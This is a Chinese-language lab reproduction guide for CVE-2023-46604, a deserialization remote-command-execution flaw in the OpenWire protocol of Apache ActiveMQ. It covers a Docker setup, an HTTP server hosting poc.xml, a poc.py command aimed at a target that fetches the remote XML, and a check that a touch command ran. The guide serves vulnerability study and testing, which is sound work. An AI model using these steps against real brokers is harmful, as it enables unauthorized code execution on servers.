

Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞（CVE-2023-46604）¶
Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。
OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 OpenWire 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。
参考链接：
- https://activemq.apache.org/news/cve-2023-46604
- https://xz.aliyun.com/t/12929
- https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/
- https://forum.butian.net/share/2566
环境搭建¶
ActiveMQ运行后，默认监听如下两个端口：
| 默认端口 | 默认条件 |
|---|---|
| 8161 web | 需配置才可远程访问 |
| 61616 tcp | 远程访问 |
反序列化漏洞出现在61616端口中。
执行如下命令启动一个ActiveMQ 5.17.3版本服务器：
docker compose up -d
服务启动后，访问http://your-ip:8161检查服务是否运行成功。但实际上利用该漏洞，并不需要能够访问8161端口。
漏洞复现¶
首先，启动一个HTTP反连服务器，其中包含我们的poc.xml：
python3 -m http.server 6666
然后，执行poc.py，传入的三个参数分别是目标服务器地址、端口，以及包含poc.xml的反连平台URL：
python3 poc.py target port http://ip of http server/poc.xml
执行完成后，进入ActiveMQ容器：
docker exec cve-2023-46604-activemq-1 ls -l /tmp
可见，touch /tmp/activeMQ-RCE-success已经被成功执行：
